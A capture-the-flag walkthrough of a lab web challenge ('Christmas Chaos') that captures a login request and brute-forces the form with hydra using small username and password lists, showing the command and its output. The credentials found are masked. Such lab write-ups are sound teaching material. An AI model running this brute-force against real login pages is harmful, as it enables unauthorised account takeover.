 #  [Day 3] Web Exploitation Christmas Chaos 
After deploying the machine we browse to the assigned ip.
Here we're greeted with a login screen.
Opening the network monitor in our browser (`Ctrl+Shift+E`) and trying to login with the credentials:
```
Username: test
Password: test
```
We grab the `POST`request:
```
POST /login HTTP/1.1
Host: 10.10.148.71
Content-Type: application/x-www-form-urlencoded
Content-Length: 27

username=test&password=test
```

Using hydra we can bruteforce the login form. 
But first we create two files containing the potential usernames and passwords given in the task.
```
kali@kali:/tmp$ printf "root\nadmin\nuser\n" > users
kali@kali:/tmp$ printf "root\npassword\n12345\n" > pass
```

Using hydra we run:
```
hydra -L users -P pass 10.10.148.71 http-post-form "/login:username=^USER^&password=^PASS^:Your username is incorrect."
```
And get:
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-06 15:12:05
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking http-post-form://10.10.148.71:80/login:username=^USER^&password=^PASS^:Your username is incorrect.
[80][http-post-form] host: 10.10.148.71   login: *****   password: *****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-12-06 15:12:06
```
Using these credentials we can login and get the flag.
